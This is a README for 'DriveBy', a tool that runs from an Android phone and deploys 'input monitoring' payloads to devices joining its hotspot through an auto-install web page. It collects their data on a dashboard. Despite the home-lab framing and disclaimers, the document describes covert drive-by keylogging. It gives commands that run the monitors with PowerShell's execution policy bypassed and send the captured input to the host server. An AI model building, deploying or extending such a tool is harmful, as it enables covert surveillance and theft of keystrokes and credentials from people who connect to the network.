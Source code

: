 # DriveBy - Home Network Cluster Management System

A phone-based system for automatically deploying input monitoring to devices connecting to your Android hotspot. Designed for managing your own devices in a controlled home lab environment.

## Quick Start

### 1. Setup (Android/Termux)
```bash
# Install Termux from F-Droid or Google Play
# Open Termux and run:
pkg update && pkg upgrade
pkg install python python-pip git
pip install -r requirements.txt
```

### 2. Run the System
```bash
# Start both services
python start.py

# Or check dependencies first
python start.py --check-only
```

### 3. Connect Devices
1. Enable hotspot on your Android phone
2. Connect target devices to the hotspot
3. On target devices, browse to: `http://192.168.43.1:8080`
4. Follow auto-installation instructions

## Features

- **Auto Device Detection** - Monitors hotspot connections
- **Web-Based Deployment** - Automatic script installation
- **Cross-Platform** - Windows, Linux, macOS, Android support
- **Real-Time Dashboard** - Monitor devices and data collection
- **Home Lab Focused** - Designed for authorized device management

## System Architecture

```
Android Phone (Host)
├── phone_host.py # Device detection & web server
├── data_server.py # Data collection & dashboard
└── Auto-deployment # Web interface for target devices

Target Devices
├── Windows # PowerShell monitoring script
├── Linux/Mac # Python monitoring script
└── Android # Termux monitoring script
```

## Web Interfaces

- **Auto-Install**: `http://[hotspot-ip]:8080` - Device setup page
- **Dashboard**: `http://[hotspot-ip]:8081/dashboard` - Data monitoring
- **Status**: `http://[hotspot-ip]:8080/status` - System status

## File Structure

```
DriveBy/
├── start.py # Easy launcher script
├── phone_host.py # Main host service
├── data_server.py # Data collection server
├── config.json # Configuration
├── requirements.txt # Dependencies
├── setup.md # Detailed setup guide
├── payloads/ # Device-specific scripts
│ ├── windows_monitor.ps1
│ ├── linux_monitor.py
│ └── android_monitor.py
├── web/
│ └── autorun.html # Auto-installation page
└── collected_data/ # Data storage
```

## Usage Examples

### Basic Usage
```bash
# Start full system
python start.py

# Check system health
python start.py --check-only

# Start only host service
python start.py --host-only
```

### Manual Device Setup
```bash
# Windows (as Administrator)
powershell -ExecutionPolicy Bypass -File cluster_monitor.ps1

# Linux/Mac
python3 cluster_monitor.py --server 192.168.43.1

# Android (in Termux)
python cluster_monitor.py --setup
```

## Configuration

Edit `config.json` to customize:

```json
{
 "server": {
 "port": 8080, # Web server port
 "data_port": 8081 # Data collection port
 },
 "network": {
 "scan_interval": 5, # Device scan frequency
 "hotspot_range": "192.168.43.0/24"
 }
}
```

## Security Notes

 **Important**: This system is designed for:
- Managing your own devices
- Home lab environments
- Educational purposes
- Authorized security testing

Ensure proper authorization before deployment on any device.

## Troubleshooting

### Common Issues

1. **Dependencies Missing**:
 ```bash
 pip install -r requirements.txt
 ```

2. **Permission Errors**:
 - Windows: Run PowerShell as Administrator
 - Linux/Mac: May need sudo for input access
 - Android: Grant Termux permissions

3. **Network Issues**:
 - Verify hotspot is enabled
 - Check IP addresses match configuration
 - Ensure firewall allows connections

### Debug Mode
```bash
# Enable verbose logging
python start.py --check-only # Check system health
```

## Requirements

- **Host**: Android device with Termux, Python 3.6+
- **Targets**: Windows (PowerShell 5.0+), Linux/Mac (Python 3.6+), Android (Termux)
- **Network**: Hotspot capability, local network access

## License

Educational and authorized use only. Users responsible for legal compliance.

---

**Need help?** Check `setup.md` for detailed instructions or review `TODO.md` for implementation status.
